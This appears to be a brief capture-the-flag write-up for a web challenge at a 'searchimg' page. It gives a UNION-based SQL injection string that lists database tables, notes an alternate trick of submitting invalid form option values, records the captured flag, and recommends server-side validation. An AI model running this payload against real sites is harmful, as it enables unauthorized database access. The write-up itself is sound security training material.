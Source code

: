 # Where: <br>
    /?page=searchimg
# How:
-By entering
-1 union _select_ null, concat (table_name) from information_schema.tables where table_schema = database ()
-Change the value of 1 of the options to an invalid value.
Or
-Add an invalid option.
-Select the invalid value
-Receive the flag
# Flag:
03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
Store options server side/on backend.All user input should be sanitised and validated (backend).
